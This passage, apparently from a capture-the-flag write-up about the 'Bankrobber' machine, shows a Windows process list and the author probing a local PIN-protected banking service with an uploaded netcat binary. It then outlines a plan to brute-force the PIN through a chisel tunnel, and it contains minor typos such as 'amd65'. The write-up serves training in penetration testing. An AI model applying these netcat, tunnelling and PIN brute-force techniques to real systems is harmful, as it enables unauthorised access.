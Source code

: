 ```txt
mysqld.exe                    1764                            0     14.428 K
conhost.exe                   1684                            0        112 K
httpd.exe                     3152                            0      6.948 K
svchost.exe                   4032                            0      7.056 K
sedsvc.exe                    3068                            0     10.640 K
svchost.exe                   3860                            0      8.304 K
cmd.exe                       4732                            0      1.604 K
conhost.exe                   3836                            0      1.088 K
powershell.exe                3020                            0      2.808 K
n.exe                         4192                            0      2.616 K
cmd.exe                       4328                            0      2.204 K
svchost.exe                   4636                            0      6.788 K
SearchProtocolHost.exe        1652                            0     10.900 K
SearchFilterHost.exe          2000                            0      6.316 K
dllhost.exe                   4224                            0      5.808 K
tasklist.exe                  1304                            0      7.792 K

```

I can use `nc` that I uploaded to talk to this port. When I connected, it hung for a moment, but when I hit enter, it continued:

```bash
%temp%\n.exe 127.0.0.1 910
```

When I enter a pin at random, I get denied:

```cmd
C:\>%temp%\n.exe 127.0.0.1 910
%temp%\n.exe 127.0.0.1 910
1234
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 1234


```

We'll have to forward this port in order to access it, because the firewall blocks direct connections to it. This can be achieved by using chisel. Download the Windows and Linux binaries from the releases section.

### Tunnel

I’m going to script a brute force attack on the pin, but I don’t want to do that from Windows. I’ll create a tunnel using `chisel` (I’ve written a [post](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html) about the awesomeness that is [Chisel](https://github.com/jpillora/chisel) before). With a copy of the amd65 compiled binary from the [release page](https://github.com/jpillora/chisel/releases) in my webserver directory, I’ll get it on Bankrobber in cortin’s temp directory:
